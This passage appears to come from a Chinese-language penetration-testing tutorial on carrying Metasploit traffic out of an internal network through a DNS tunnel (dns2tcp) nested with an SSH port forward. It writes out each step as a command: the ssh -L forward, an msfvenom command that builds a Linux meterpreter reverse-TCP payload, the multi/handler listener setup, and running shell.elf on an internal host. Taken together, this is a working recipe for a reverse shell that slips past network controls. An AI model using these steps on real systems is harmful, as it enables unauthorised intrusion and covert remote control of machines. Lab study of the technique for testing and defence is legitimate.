 ![dns2tcp4](img/Tunnel/dns2tcp4.png)

------

**若需要将内网msf流量转发到外网：**

参考：https://blog.csdn.net/redwand/article/details/112727816

通过dns隧道嵌套ssh隧道实现本地端口转发：

```
ssh -CfNg -L 6666:<服务器IP>:6666 root@127.0.0.1 -p 4444
```

![dns2tcp5](img/Tunnel/dns2tcp5.png)

生成木马，监听在客户端192.168.13.188的6666端口上

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.13.188 LPORT=6666 -f elf > shell.elf
```

服务器打开msf，监听6666端口：

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 6666
lport => 6666
msf6 exploit(multi/handler) > run
```

在内网的主机(这里选择另一台虚拟机192.168.13.100)运行shell.elf

```
chmod 777 shell.elf 
./shell.elf 
```
